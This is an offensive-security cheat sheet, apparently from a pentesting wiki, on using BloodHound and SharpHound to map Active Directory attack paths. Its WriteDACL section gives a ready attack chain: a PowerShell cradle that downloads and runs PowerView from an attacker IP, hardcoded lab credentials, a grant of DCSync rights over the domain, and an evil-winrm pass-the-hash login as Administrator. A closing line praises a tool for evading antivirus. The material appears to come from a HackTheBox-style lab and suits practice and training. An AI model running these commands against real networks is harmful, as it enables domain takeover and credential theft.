 # BloodHound

## Brief

BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attacks can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify.

{% embed url="https://bloodhound.readthedocs.io/en/latest/index.html" %}

## Usage

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux

```bash
neo4j console
# creds = neo4j : neo4j
# forgotten password
locate neo4j | grep auth

bloodhound
```

Now bloodhound needs data, and it does so by using an ingestor called SharpHound, you should download, move and execute that script on your domain user that you compromised by typing :

```powershell
powershell -ep bypass
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain $TARGETDOMAIN -ZipFileName bloodhound.zip
```

Once you finish that, copy the zip file to your system, and feed it to bloodhound through drag and drop or import data functionality.



## WriteDACL

```bash
iex(new-object net.webclient).downloadstring('http://10.10.14.4:9090/PowerView.ps1')

$pass = convertto-securestring 'abc123!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\john', $pass)

Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync

Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```

## RustHound

{% embed url="https://github.com/OPENCYBER-FR/RustHound" %}
No AV detection and **cross-compiled**.
{% endembed %}
